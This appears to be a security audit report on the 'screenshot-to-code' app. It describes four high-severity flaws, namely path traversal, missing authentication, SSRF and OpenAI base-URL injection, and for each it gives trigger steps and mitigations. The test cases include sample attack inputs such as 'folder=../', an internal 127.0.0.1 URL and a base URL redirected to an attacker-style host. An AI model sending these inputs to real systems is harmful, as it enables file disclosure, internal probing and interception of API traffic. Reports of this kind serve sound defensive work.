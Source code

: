 # List of High-Severity Vulnerabilities in "screenshot-to-code"

Below are the vulnerabilities that meet the criteria:
- They are all high severity.
- They are valid, not already mitigated, and can be triggered by an external attacker with network access to the public instance.
- They are not caused by insecure coding patterns in project files, are not only missing documentation to mitigate, and are not purely denial-of-service vulnerabilities.

---

## Vulnerability Name: Arbitrary File Read via Eval Endpoints
- **Description:**
  The endpoints for evaluations (including `/evals`, `/pairwise-evals`, and `/best-of-n-evals`) directly use user‑supplied folder path parameters to list files on disk. An attacker may submit a path (for example, using path traversal sequences such as “../”) so that the backend lists and returns the contents of arbitrary directories containing HTML files.
  - **Step-by-step trigger:**
    1. The attacker crafts a GET request to the endpoint (e.g. `/evals?folder=../some_sensitive_dir`) where the folder parameter is not sanitized.
    2. The server checks if the path exists (using `Path(folder).exists()`) and then performs an `os.listdir(folder)` without restrictions.
    3. If any files ending with “.html” exist in that folder, their contents are sent back in the response.
- **Impact:**
  Disclosure of confidential internal files such as configuration pages, internal documentation, or even source code that could be used to launch additional attacks.
- **Vulnerability Rank:** High
- **Currently Implemented Mitigations:**
  None—there is no input validation or path restriction on the folder parameter.
- **Missing Mitigations:**
  • Validate and strictly sanitize any filesystem path inputs, ideally by whitelisting allowed directory trees.
  • Reject path traversal attempts or absolute paths that fall outside a designated safe directory.
- **Preconditions:**
  The attacker must have network access to the public eval endpoints and possess knowledge (or be able to guess) sensitive file locations.
- **Source Code Analysis:**
  In `backend/routes/evals.py` the function `get_evals(folder: str)` directly calls `Path(folder)` and uses `os.listdir(folder)` without any sanitization.
- **Security Test Case:**
  • Use an HTTP client (e.g. curl or Postman) to send a request such as:
    `GET /evals?folder=../`
  • Examine the response for any unexpected HTML content that may reveal sensitive files.

---

## Vulnerability Name: Unauthenticated and Unrestricted Code Generation via WebSocket
- **Description:**
  The `/generate-code` endpoint (implemented as a WebSocket in `backend/routes/generate_code.py`) does not enforce any authentication or rate limiting. Any external client can open a WebSocket connection and submit valid parameters to trigger AI‑powered code generation.
  - **Step-by-step trigger:**
    1. An attacker uses a WebSocket client (or tool such as wscat) to connect to the public endpoint (e.g. `ws://example.com/generate-code`).
    2. The attacker sends a well‑formed JSON payload that includes required parameters (such as image URL, stack, and others).
    3. The backend then calls expensive external APIs (e.g. OpenAI or Anthropic) to generate code and streams the response back.
- **Impact:**
  Unauthorized use of the code generation service may result in excessive API calls—leading to financial costs and resource exhaustion. Attackers might also use the functionality to generate undesired or malicious content.
- **Vulnerability Rank:** High
- **Currently Implemented Mitigations:**
  There is no authentication or rate limiting in the WebSocket endpoint.
- **Missing Mitigations:**
  • Implement proper authentication (API keys, tokens, or session‑based authentication) for clients connecting to the endpoint.
  • Introduce rate limits to restrict the number of requests per IP/session.
- **Preconditions:**
  The attacker must have access to the public network and be able to open a WebSocket connection.
- **Source Code Analysis:**
  In `backend/routes/generate_code.py` the decorator `@router.websocket("/generate-code")` does not perform any authentication; it simply accepts JSON data from the client and processes it.
- **Security Test Case:**
  • Connect to the WebSocket endpoint using a WebSocket client.
  • Send a valid code-generation JSON payload without any authentication information.
  • Confirm that the server processes the request and returns AI‑generated code.
  • Optionally, send multiple requests in rapid succession to demonstrate the absence of rate limiting.

---

## Vulnerability Name: Potential SSRF via Screenshot Endpoint
- **Description:**
  The `/api/screenshot` endpoint accepts a JSON payload in which the user supplies a URL. This URL is then forwarded as a parameter to an external screenshot service (via the `capture_screenshot` function).
  - **Step-by-step trigger:**
    1. The attacker submits a POST request to `/api/screenshot` with a body such as:
       ```json
       { "url": "http://127.0.0.1/admin", "apiKey": "sk-dummy" }
       ```
    2. The backend passes this unsanitized URL to the external API call (`httpx.get` call to `https://api.screenshotone.com/take`) without additional validation.
    3. If the external service does not validate the URL adequately, it may fetch internal resources.
- **Impact:**
  This could lead to server‑side request forgery (SSRF), allowing the attacker to probe internal network resources and potentially expose sensitive internal information.
- **Vulnerability Rank:** High
- **Currently Implemented Mitigations:**
  No validation or sanitization of the `url` parameter is implemented.
- **Missing Mitigations:**
  • Implement input validation to ensure that the URL is well‑formed and belongs to an allowed (external) domain.
  • Consider whitelisting acceptable URL schemes and hostnames to prevent internal targeting.
- **Preconditions:**
  The attacker must be able to send arbitrary URLs in the request payload and the external screenshot service must not enforce strict URL validation.
- **Source Code Analysis:**
  In `backend/routes/screenshot.py`, the function `capture_screenshot` directly assigns the user‑controlled “url” field from the request into the parameters for the GET request to `"https://api.screenshotone.com/take"`.
- **Security Test Case:**
  • Use an HTTP client to send a POST request to `/api/screenshot` with a JSON body containing a URL that points to an internal address (e.g., `"http://127.0.0.1/admin"`).
  • Analyze the output for signs that internal resources are being captured or that unexpected behavior occurs.

---

## Vulnerability Name: OpenAI Base URL Injection Vulnerability
- **Description:**
  For non‑production setups (when the `IS_PROD` flag is false), the code generation endpoint allows the client to pass an `openAiBaseURL` parameter. This parameter is then used directly when constructing the OpenAI client.
  - **Step-by-step trigger:**
    1. An attacker connects to the `/generate-code` WebSocket endpoint and sends a payload containing:
       ```json
       { "openAiBaseURL": "http://malicious.example.com/v1", ... }
       ```
    2. The helper function `get_from_settings_dialog_or_env` in `backend/routes/generate_code.py` uses the provided value (since `IS_PROD` is false) and passes it to the OpenAI client constructor.
    3. Subsequent requests to the OpenAI API are then routed to the attacker‑controlled URL.
- **Impact:**
  This vulnerability enables the attacker to intercept, modify, or eavesdrop on sensitive API calls—including prompts and responses—thus compromising confidentiality and integrity.
- **Vulnerability Rank:** High
- **Currently Implemented Mitigations:**
  In production environments the user‑supplied base URL is ignored, but in non‑production it is accepted without restriction.
- **Missing Mitigations:**
  • Validate the supplied `openAiBaseURL` against a whitelist of allowed endpoints.
  • Alternatively, disallow user‑supplied OpenAI base URLs entirely or restrict this functionality to trusted management interfaces.
- **Preconditions:**
  The attacker must be able to control the WebSocket payload while the backend is running in a non‑production mode.
- **Source Code Analysis:**
  In `backend/routes/generate_code.py`, the function `get_from_settings_dialog_or_env` retrieves the `"openAiBaseURL"` parameter from the client payload and uses it if present (when not in production).
- **Security Test Case:**
  • In a controlled non‑production environment, connect to the WebSocket endpoint and include an `"openAiBaseURL"` value set to a test server under the attacker’s control.
  • Verify (for example, by monitoring outgoing HTTP requests) that the OpenAI client uses the provided URL.
  • Confirm that altering this parameter changes the target destination of the API calls.
